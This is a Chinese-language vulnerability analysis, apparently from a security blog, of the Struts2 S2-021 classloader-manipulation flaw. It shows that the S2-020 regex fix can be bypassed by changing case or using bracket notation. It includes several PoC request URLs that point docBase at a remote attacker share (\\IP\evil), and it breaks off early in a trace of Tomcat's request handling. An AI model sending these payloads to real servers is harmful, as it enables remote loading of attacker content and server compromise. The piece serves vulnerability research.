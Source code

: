# Debug Struts2 S2-021的一点心得体会

前段时间这个漏洞吵得比较火，最近研究了一下tomcat底层代码，结合struts2的框架源码跟踪了一下这个漏洞的触发过程。在整个debug过程中，感触颇多，遂留下此文以作三思笔记，不敢奢望太多，只希望对感兴趣的童鞋有所帮助，大牛飘过。如果文中哪里有不准确之处，还望各位积极拍砖指正。

0x00 老漏洞新玩法
-----------

* * *

关于利用，不得不先说一下S2-020这个漏洞，其实之前网上已经有相关文档讲述S2-020的利用方法，比如下边这两篇

[http://drops.wooyun.org/papers/1377](http://drops.wooyun.org/papers/1377)

[http://sec.baidu.com/index.php?research/detail/id/18](http://sec.baidu.com/index.php?research/detail/id/18)

首先要感谢作者提供利用方法。个人还是更偏向利用docBase属性，因为这个属性tomcat每个版本都有。PoC如下，

```
http://localhost:8080/S2_3_16_1/hello.action?class.classLoader.resources.dirContext.docBase=\\IP\evil

```

这是S2-020的利用，我们再回到S2-021，首先看一下官方是怎么修复的，找到struts2-core-2.3.16.1.jar中的struts-default.xml，可以看到官方修复就是将用户请求用正则过滤了一下，而且正则写的也很简陋，包括github上给出的那个修复方法，都没有过滤掉真正的利用，如图所示：

![](http://drops.javaweb.org/uploads/images/f4a96a02383fcc1a2fd909c8f69e941521e7f10b.jpg)

所以将S2-020的poc稍微变一下型绕过正则过滤，便是S2-021了，并且struts2默认正则大小写是敏感的。利用就很简单了，下面这几种方法都可以

```
http://localhost:8080/S2_3_16_1/hello.action?class[‘classLoader’].resources.dirContext.docBase=\\IP\evil
http://localhost:8080/S2_3_16_1/hello.action?Class.ClassLoader.resources.dirContext.docBase=\\IP\evil
http://localhost:8080/S2_3_16_1/hello.action?top.Class.ClassLoader..resources.dirContext.docBase=\\IP\evil
….

```

这里我就以Class['ClassLoader'].resources.dirContext.docBase =aa为例跟踪请求从tomcat容器到struts2框架的代码处理流程，先说一下调试环境，这里我debug的是tomcat 6.0.24的源码+struts2.3.16.1的源码。

0x01 Tomcat处理HTTP请求
-------------------

* * *

首先肯定是先由tomcat来处理请求，跟踪tomcat源码，这里tomcat调用JIoEndpoint.java的run()创建socket

![](http://drops.javaweb.org/uploads/images/21f1bf460a5bc0bd212a6e2ff1fe5e12f974fce0.jpg)

![](http://drops.javaweb.org/uploads/images/03d493774bf598aa40345a54b871c4f2664a6fb8.jpg)
